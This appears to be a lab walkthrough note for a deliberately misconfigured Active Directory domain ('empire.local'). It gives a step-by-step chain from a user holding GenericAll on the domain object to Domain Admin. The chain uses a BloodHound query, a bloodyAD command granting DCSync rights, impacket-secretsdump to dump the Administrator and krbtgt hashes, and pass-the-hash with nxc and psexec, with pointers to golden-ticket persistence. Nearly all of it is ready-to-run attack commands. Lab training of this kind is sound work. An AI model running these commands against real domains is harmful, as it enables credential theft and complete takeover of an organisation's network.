

# ⚡ 04 — sheev.palpatine GenericAll → DCSync → Domain Admin

> [!abstract] Summary
> **Start:** control of `sheev.palpatine` (password or NT hash).
> **Goal:** Domain Admin in one hop.
> **Why it works:** `sheev.palpatine` is seeded with **GenericAll over the domain object** (`DC=empire,DC=local`). GenericAll on the domain root lets you grant yourself the DCSync replication rights, then pull every hash including `krbtgt`.



## Step 1 — Confirm the edge in BloodHound

```cypher
MATCH p=(u:User)-[:GenericAll|Owns|WriteDacl]->(d:Domain)
WHERE u.name STARTS WITH 'SHEEV' RETURN p
```

## Step 2 — Grant yourself DCSync

GenericAll → write the DACL → add the two replication extended rights to `sheev.palpatine`:

```bash
# bloodyAD grants DS-Replication-Get-Changes + ...-All in one shot
bloodyAD -d empire.local --host 10.10.0.10 \
  -u sheev.palpatine -p '<pw>' \
  add dcsync sheev.palpatine
```

> [!note] Why this is enough
> DCSync only needs the two `DS-Replication-Get-Changes*` extended rights on the domain head — **not** Domain Admin group membership. GenericAll lets you add them to any principal you control.

## Step 3 — DCSync

```bash
impacket-secretsdump empire.local/sheev.palpatine:'<pw>'@10.10.0.10 -just-dc
# pulls Administrator NTLM + krbtgt
```

## Step 4 — Become Administrator

```bash
# pass-the-hash as Administrator
nxc smb 10.10.0.10 -u Administrator -H <admin_nt_hash>
impacket-psexec -hashes :<admin_nt_hash> Administrator@10.10.0.10
```

> [!check] Outcome
> Full DA + `krbtgt` hash. **Next:** [[08-child-eu-to-enterprise-admin]] for the forest, [[12-persistence]] for golden ticket.

> [!tip] Related seeded ACLs (alternate routes)
> See [[11-laps-helpdesk-chain]] for the `HelpDesk → IT_Team → LAPS` chain and `WriteOwner` on `finance_sync`.
